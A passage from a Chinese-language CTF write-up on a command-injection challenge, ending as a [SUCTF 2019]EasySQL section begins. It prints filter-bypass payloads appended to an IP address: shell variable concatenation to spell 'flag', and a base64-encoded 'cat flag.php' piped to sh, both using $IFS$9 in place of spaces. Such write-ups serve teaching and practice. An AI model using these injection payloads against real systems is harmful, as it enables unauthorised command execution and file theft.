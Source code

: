 <img src="https://i-blog.csdnimg.cn/blog_migrate/adb525d9a01f527e881c27ad5cbcde8b.png" alt="" style="max-height:243px; box-sizing:content-box;" />


#### 2.变量拼接

因为过滤了flag 所以我们将变量赋值 然后进行拼接

payload

```swift
127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php
a= ag b = fa  变量赋值
$b$a   引用变量
相当于 flag
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7f15ae8922dd8b1bb3fe3b918b0c2a52.png" alt="" style="max-height:291px; box-sizing:content-box;" />


源代码中发现

#### 3.base绕过

```cobol
echo  输出命令
cat flag.php 进行base64  Y2F0IGZsYWcucGhw
base64 -d  解密base64执行 
sh 是shell命令语言解释器  通过这个执行base64 -d
 
 
所以payload
 
127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
 
| 为管道符 直接执行命令   |左边命令的输出就会作为|右边命令的输入
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0458f945dfa3c1c811da0657d848a0ac.png" alt="" style="max-height:304px; box-sizing:content-box;" />


### [SUCTF 2019]EasySQL

打开环境



<img src="https://i-blog.csdnimg.cn/blog_migrate/996a7989610c95a1815dab5a5cd4c2e1.png" alt="" style="max-height:137px; box-sizing:content-box;" />


输入 1



<img src="https://i-blog.csdnimg.cn/blog_migrate/0e0de36be903a19369b5ec5006ce8e7c.png" alt="" style="max-height:148px; box-sizing:content-box;" />
